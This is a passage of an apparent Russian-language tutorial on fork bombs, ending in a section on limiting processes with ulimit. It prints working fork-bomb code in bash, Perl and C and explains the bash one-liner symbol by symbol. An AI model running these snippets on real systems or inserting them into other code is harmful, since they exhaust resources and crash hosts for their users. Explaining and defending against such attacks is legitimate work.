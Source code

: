 # Fork Bomb #

fork-бомба — вредоносная или ошибочно написанная программа, бесконечно создающая свои копии (системным вызовом fork()), которые обычно также начинают создавать свои копии и т. д.

Выполнение такой программы может вызывать большую нагрузку вычислительной системы или даже зависание системы вследствие нехватки системных ресурсов (дескрипторов процессов, памяти, процессорного времени), что и является целью.

fork-бомбу очень трудно ликвидировать, т.к. один процесс не зависит от другого и помогает только лишь перезагрузка компьютера. Но иногда она попадает и в автозагрузку (если это указано в коде) и тогда для ее ликвидации необходимо загружаться в режиме защиты от сбоев (например, безопасном режиме в Windows). Но некоторые fork-бомбы можно уничтожить и без перезагрузки.

### Примеры создания  Fork Bomb ###

Итак, код выглядит так:

	:(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *    : — загрузка копии функции «:» в память
   *    |: — перенаправление вывода в следующую копию функции
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (командный сепаратор).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	 #!/bin/bash
	 bomb() {
	 bomb | bomb &
	 };
	 bomb

Существуют Fork-бомбы и на языках программирования, приведу некоторые из них :

### Пример создания  Fork Bomb с использованием perl ###

	# perl -e "fork while fork" &

### Пример создания  Fork Bomb с использованием C/C++ ###

	#include <unistd.h>
	int main(void)
	{
		while(1)
		fork();
	}

И все-таки fork-бомбы на каких они языках программирования не написаны действуют по одному принципу.

## Ограничение процессов, создаваемых пользователем ##

Избегайте использования Fork в любом, выражении, которое может оказаться в бесконечном цикле.
Утилита ```ulimit``` используется для временного установления пределов текущей оболочки и ее сыновей (таким образом в двух разных терминалах можно).
Можно ограничить процесс разветвления, как показано ниже:

	ulimit -u count_of_process

Установим предел процессов ####100####
Проверьте результат:

	ulimit -a

Необходимо отметить, что ограничение количества процессов само по себе не предотвращает запуск fork-бомбы, а лишь направлено на минимизацию возможного вреда в случае её срабатывания.

Запустите 
